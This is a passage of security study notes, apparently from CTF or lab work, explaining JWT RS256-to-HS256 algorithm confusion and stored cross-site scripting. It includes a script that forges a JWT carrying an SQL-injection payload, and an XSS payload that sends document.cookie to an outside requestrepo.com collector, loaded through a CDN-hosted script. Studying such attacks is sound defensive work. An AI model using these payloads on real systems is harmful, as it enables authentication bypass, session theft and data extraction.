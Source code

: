They have two ways of working: asymetric (RSA) and symmetric. In asymetric the token is signed with the private key and can be verified with the public key. In symmetric, the token is signed with a shared secret.

This signing and verifing is very important because it ensures that nobody modifies the tokens.

However, for old unsecure version of the libraries that handles this, it is possible to modify the payload and sign with the public key (if you are lucky enough to get it). When we change the signing algorithm, we are telling the other side that we're using symmetric algorithm.

See the following example:

In the received side, the token is verified using symmetric and asymmetric algorithms:
```javascript
async decode(token) {
    return (await jwt.verify(token, publicKey, { algorithms: ['RS256', 'HS256'] }));
}
```
First, it will try with RSA (RS) and later with Hash (HS) if the previous fails.

This way in the client side, we can modify the payload and sign the payload by changing the signing algorithm:

```javascript
const fs = require('fs');
const jwt = require('jsonwebtoken');

const publicKey  = fs.readFileSync('./public.key', 'utf8');
const validJwtToken  = fs.readFileSync('./jwt-token.txt', 'utf8');

decoded = jwt.verify(validJwtToken, publicKey, { algorithms: ["RS256"]})
decoded["username"] = "admin' AND 1=2 UNION SELECT 1,top_secret_flaag,3 FROM flag_storage  -- -"
re_encoded = jwt.sign(decoded, publicKey, {algorithm: 'HS256'})

console.log(re_encoded)
```
Here, we are using the public key to verify the received token, as the regular way.

Then, we change the payload and we sign again to generate the JWT. We use the public key and we change the algorithm to Hash. This way the receiver will verify the token using the public key. It will first fail with the asymmetric but it will work with the symmetric algorithm.

In this case, we are modifying the token to retrieve something from the database using an SQL injection.


### Cross-Site Scripting (XSS) <a name="xss"></a>

This is a massive vulnerability. It consist on a web application accepting input from the user. If the input is not sanitized, the attacker might be able to write HTML in the input form. This HTML can include malicious javascript code.

Let's imagine we have an application with a form with no sanitized input. On another view we list that input. An attacker can place JS code that will be executed in the other view.

E.g.
1. Create a payload file that will send the interesting data (in our case, we want to extract something from the cookie):
```js
fetch("https://ojm5l9c8.requestrepo.com/?" + document.cookie);
```
2. Write the XSS HTML code in the input form field:
```html
<script src=https://cdn.jsdelivr.net/gh/adriangalera/htb-cursed-secret-party-xss@master/xss.js></script>
```
3. In the remote url (requestrepo), you'll see the value of the `document.cookie`
